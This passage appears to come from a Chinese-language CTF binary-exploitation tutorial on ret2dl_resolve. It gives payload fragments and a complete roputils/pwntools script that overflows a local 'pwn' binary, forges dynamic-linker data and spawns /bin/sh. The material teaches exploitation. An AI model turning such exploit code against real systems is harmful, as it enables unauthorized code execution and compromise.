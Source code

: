 <img src="/upload/img/image-20220411122228259.png" alt="image-20220411122228259" style="zoom:50%;" />

payload2=p32(plt0)
payload2+=p32(reloc_index)

这两步对应的就是图中标注的两步，这也就是plt在干的事情（因此你可以把这两步等同于p32(read_plt_addr)）
## 工具攻击

另外也可以采用Roputil工具，进行攻击，这个工具的威力是很大的，我们根本不需要改什么东西，只要换个偏移和程序名，然后就一把梭了。工具在此下载https://github.com/inaz2/roputils

```python
#!/usr/bin/env python
# coding=utf-8
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
processName = 'pwn'
offset = 44


r = process('./' + processName)
context.log_level = 'debug'
rop = ROP('./' + processName)

bss_base = rop.section('.bss')#这个rop，就可以理解成elf，这里就是获取了bss段首地址
buf = rop.fill(offset)#填充垃圾数据

buf += rop.call('read', 0, bss_base, 100)#添加一个调用，调用了read函数，后面是它的参数
## used to call dl_Resolve()
buf += rop.dl_resolve_call(bss_base + 20, bss_base)#第一个参数为伪造的link_map，第二个则是被劫持调用
#函数的参数（system），也就是/bin/sh的位置
r.send(buf)

buf = rop.string('/bin/sh')#先存入/bin/sh字符串，使其位于bss_base的位置
buf += rop.fill(20, buf)#填充垃圾数据
## used to make faking data, such relocation, Symbol, Str
buf += rop.dl_resolve_data(bss_base + 20, 'system')
#第一个参数是伪造的link_map首地址（就是system函数名放的位置），第二个参数是要伪造的函数名
buf += rop.fill(100, buf)#填充垃圾数据
r.send(buf)
r.interactive()
```
